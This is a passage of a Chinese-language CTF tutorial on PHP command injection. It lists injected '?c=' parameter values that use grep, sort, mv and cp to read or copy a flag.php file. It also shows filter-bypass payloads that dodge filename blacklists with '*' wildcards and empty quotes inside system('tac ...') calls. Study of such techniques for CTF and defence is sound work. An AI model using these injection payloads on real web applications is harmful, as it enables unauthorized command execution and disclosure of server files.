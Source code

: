 ## 2.7 grep命令文件读取

`grep` 用于查询文件中包含指定字符串的行

```c
?c=grep 'fla' flag.php
```

## 2.8 sort命令排序输出

`sort`是一个排序命令，`sort filename`会将文件内容进行行间的排序并输出文本

```c
?c=sort flag.php
```

## 2.9 mv命令文件重命名

例如利用 `mv` 将 `flag.php` 的后缀名改为 txt 后直接访问 txt 文件

```c
?c=mv f?lg.php a.txt
```

## 2.10 cp命令文件内容复制

利用 `cp` 命令将 `flag.php` 的内容复制到 `1.txt` 文件中，再通过访问 `/1.txt` 读取文件内容  
注意：使用反引号执行命令时还是需要用 `echo` 输出

```c
?c=cp flag.php 1.txt

?c=echo `cp flag.php 1.txt`;
```

---

# 三. 文件名过滤

利用文件名过滤绕过技巧

## 3.1 `*`通配符绕过

```c
?c=system("tac fl*g.php");
?c=system("tac fl*");
```

## 3.2 `''`空字符匹配绕过

```c
?c=system("tac fla''g.php")
```
